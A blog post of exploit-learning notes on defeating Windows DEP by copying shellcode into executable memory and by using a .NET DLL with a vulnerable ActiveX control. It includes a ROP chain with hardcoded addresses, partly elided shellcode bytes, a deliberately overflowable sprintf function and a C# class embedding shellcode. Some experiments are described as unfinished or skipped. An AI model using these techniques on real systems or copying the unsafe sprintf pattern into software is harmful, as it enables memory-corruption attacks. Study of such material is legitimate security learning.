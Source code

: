 ```yaml
---
title: Exploit learning notes 016 executable memory and .net attack DEP
description: Ret2Libc's DEP attack using VirtualProtect and VirtualAlloc
date: 2020-11-20 14:13:00+0800
categories:
    - Exploit
tags:
    - Windows
    - DataExecutionPrevention
---
```


Source: [Moeomu's Blog](/posts/exploit-learning-notes-016-executable-memory-and-.net-attack-dep/)

## Exploit executable memory to attack DEP

### Principle

- Sometimes there is a readable, writable and executable section of memory in the process memory space, if we can copy the shellcode into this memory and hijack the program flow, our shellcode will have the chance to execute

### Code

```cpp
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[] =
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\x8A\x17\x84\x7C"//pop eax retn
"\x0B\x1A\xBF\x7C"//pop pop retn
"\xBA\xD9\xBB\x7C"//修正EBP retn 4
"\x5F\x78\xA6\x7C"//pop retn
"\x08\x00\x14\x00"//可执行内存中弹出对话框机器码的起始地址
"\x00\x00\x14\x00"//可执行内存空间地址，复制用
"\xBF\x7D\xC9\x77"//push esp jmp eax && 原始 shellcode 起始地址
"\xFF\x00\x00\x00"//shellcode 长度
"\xAC\xAF\x94\x7C"//memcpy
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"......"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
;

void test()
{
    char tt[176];
    memcpy(tt, shellcode, 450);
}

int main()
{
    HINSTANCE hInst = LoadLibrary("shell32.dll");
    char temp[200];
    test();

    return 0;
}
```

### Postscript

- It is reasonable to have RWE access to the memory area, but unfortunately, this experiment was not completed

## NET attack on DEP

### Principle

- NET files have the same structure as PE files, i.e. they also have .text and other segments, which are also mapped to memory and have certain executable properties. NET with executable attributes, and then let the program execute in this area to execute the shellcode.
- Requirements
  - ActiveX control with overflow vulnerability
  - NET control with shellcode
  - POC page that can trigger an overflow vulnerability in the ActiveX control

### Code

> ActiveX control with overflow vulnerability

```cpp
void CVulnerAXCtrl::test(LPCTSTR str)
{
    // AFX_MANAGE_STATE(AfxGetStaticModuleState());
    // TODO: Add your dispatch handler code here
    printf("aaaa"); // 定位该函数的标记
    char dest[100];
    sprintf(dest, "%s", str);
}
```
> .NET control with shellcode

```c#
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;

namespace DEP_NETDLL
{
    public class Class1
    {
        public void Shellcode()
        {
            string shellcode =
            "\u9090\u9090\u9090\u9090\u9090\u9090\u9090\u9090" +
            "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91" +
            "\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332" +
            "\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c" +
            "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505" +
            "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b" +
            "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06" +
            "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c" +
            "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd" +
            "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33" +
            "\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050" +
            "\uff53\ufc57\uff53\uf857"
            ;
        }
    }
}
```

## Challenging DEP with Java Applet

> Difficult to find a suitable version, so this experiment is skipped and will be added later when I have a chance
